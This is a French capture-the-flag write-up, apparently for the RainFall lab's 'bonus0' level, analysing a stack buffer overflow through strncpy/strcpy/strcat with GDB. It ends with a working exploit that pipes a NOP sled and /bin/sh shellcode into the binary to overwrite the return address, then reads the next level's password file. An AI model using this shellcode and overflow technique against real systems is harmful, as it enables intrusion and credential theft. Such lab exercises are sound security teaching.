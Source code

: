 # Bonus0

Analysons les fonctions en détails :

### Fonction p
Cette fonction affiche un tiret, lit des données de l'entrée standard, et copie les données dans un buffer fourni en paramètre. Elle est vulnérable à un débordement de tampon pour plusieurs raisons :

Taille de lecture fixe et grande : read(0, localBuffer, 0x1000) lit 4096 octets, la taille complète du buffer localBuffer.
Écrasement potentiel dans strncpy : Même si strncpy limite la copie à 20 caractères (0x14 en hexadécimal), aucun caractère nul n'est explicitement ajouté pour terminer la chaîne, sauf si la chaîne source est plus courte que 20 caractères.

### Fonction pp
Cette fonction orchestre le flux principal des données utilisateur, traitant deux entrées séparées avec la fonction p, puis les concatene dans un buffer passé en paramètre. Les problèmes sont:

Utilisation de strcpy et strcat : Ces fonctions ne vérifient pas la taille du buffer de destination, conduisant directement à des débordements de tampon si les données sources sont trop grandes.

### Fonction main

Cette fonction prépare un buffer de 54 octets et appelle pp pour manipuler les données utilisateur. Elle affiche ensuite le résultat final.

Utilisons GDB pour trouver la faille potentielle.

```
(gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:	push   %ebp
   0x080485a5 <+1>:	mov    %esp,%ebp
   0x080485a7 <+3>:	and    $0xfffffff0,%esp
   0x080485aa <+6>:	sub    $0x40,%esp
   0x080485ad <+9>:	lea    0x16(%esp),%eax
   0x080485b1 <+13>:	mov    %eax,(%esp)
   0x080485b4 <+16>:	call   0x804851e <pp>
   0x080485b9 <+21>:	lea    0x16(%esp),%eax
   0x080485bd <+25>:	mov    %eax,(%esp)
   0x080485c0 <+28>:	call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:	mov    $0x0,%eax
   0x080485ca <+38>:	leave
   0x080485cb <+39>:	ret
End of assembler dump.
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXYYYYZZZZ
 -
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXYYYYZZZZ
aaaabbbbccccddddeeeeaaaabbbbccccddddeeee??? aaaabbbbccccddddeeee???

Program received signal SIGSEGV, Segmentation fault.
0x64636363 in ?? ()
(gdb) i r
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff740	0xbffff740
ebp            0x63626262	0x63626262
esi            0x0	0
edi            0x0	0
eip            0x64636363	0x64636363
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
On constate avec le pattern utilisé, qui il y a un segfault. ebp et eip sont effet ecrasé. Le programme a sauté vers 'dccc' (en little endian donc 'cccd' dans le pattern). On en conclut que le programme est redirigé a +9 de la deuxième chaine entrée.

Nous allons mettre notre shellcode dans la premiere chaine de caractère entrée avec un nopsled suffisant. Grâce a un breakpoint apres le premier read, nous trouvons l'adresse du buffer où le programme sera redirigé.

```
Starting program: /home/user/bonus0/bonus0
 -
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXYYYYZZZZ

Breakpoint 2, 0x080484e6 in p ()
(gdb) disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:	push   %ebp
   0x080484b5 <+1>:	mov    %esp,%ebp
   0x080484b7 <+3>:	sub    $0x1018,%esp
   0x080484bd <+9>:	mov    0xc(%ebp),%eax
   0x080484c0 <+12>:	mov    %eax,(%esp)
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
=> 0x080484e6 <+50>:	movl   $0xa,0x4(%esp)
   0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:	mov    %eax,(%esp)
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	movb   $0x0,(%eax)
   0x080484ff <+75>:	lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:	movl   $0x14,0x8(%esp)
   0x0804850d <+89>:	mov    %eax,0x4(%esp)
   0x08048511 <+93>:	mov    0x8(%ebp),%eax
   0x08048514 <+96>:	mov    %eax,(%esp)
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:	leave
   0x0804851d <+105>:	ret
End of assembler dump.
(gdb) x/100x $esp-100
0xbfffe60c:	0xb7e9e0fb	0xb7fd1a20	0x0000000a	0x00000000
0xbfffe61c:	0x00000000	0x0804824c	0x080498e4	0xb7fd28b8
0xbfffe62c:	0xb7e9293c	0xb7fd1a20	0xb7e338d8	0x00000003
0xbfffe63c:	0x00000000	0x00000000	0xb7fd0ff4	0x00000000
0xbfffe64c:	0x00000000	0xbffff688	0xb7ff26b0	0xbffff688
0xbfffe65c:	0x00001000	0xbfffe680	0xb7f0a213	0xb7fd0ff4
0xbfffe66c:	0x080484e6	0x00000000	0xbfffe680	0x00001000
0xbfffe67c:	0x00000000	0x61616161	0x62626262	0x63636363
0xbfffe68c:	0x64646464	0x65656565	0x66666666	0x67676767
0xbfffe69c:	0x68686868	0x69696969	0x6a6a6a6a	0x6b6b6b6b
0xbfffe6ac:	0x6c6c6c6c	0x6d6d6d6d	0x6e6e6e6e	0x6f6f6f6f
0xbfffe6bc:	0x70707070	0x71717171	0x72727272	0x73737373
0xbfffe6cc:	0x74747474	0x75757575	0x76767676	0x77777777 <== nous allons choisir cette adresse
0xbfffe6dc:	0x78787878	0x79797979	0x7a7a7a7a	0x41414141
0xbfffe6ec:	0x42424242	0x43434343	0x44444444	0x45454545
0xbfffe6fc:	0x46464646	0x47474747	0x48484848	0x49494949
0xbfffe70c:	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d
0xbfffe71c:	0x4e4e4e4e	0x4f4f4f4f	0x50505050	0x51515151
0xbfffe72c:	0x52525252	0x53535353	0x54545454	0x55555555
0xbfffe73c:	0x56565656	0x57575757	0x59585858	0x5a595959
0xbfffe74c:	0x0a5a5a5a	0x00000000	0x00000000	0x00000000
0xbfffe75c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe76c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe77c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe78c:	0x00000000	0x00000000	0x00000000	0x00000000
```

Nous pouvons à présent construire notre shellcode, comme suit :
NopeSled + shellcode en 1ere entrée.

Décalage de 9 + addresse du 1er buffer + 7 pour eviter que la chaîne ne se termine (+ de 20 caractères)

```
bonus0@RainFall:~$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xcc\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
 -
 -
????????????????????AAAAAAAAA????BBBBBBB??? AAAAAAAAA????BBBBBBB???
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

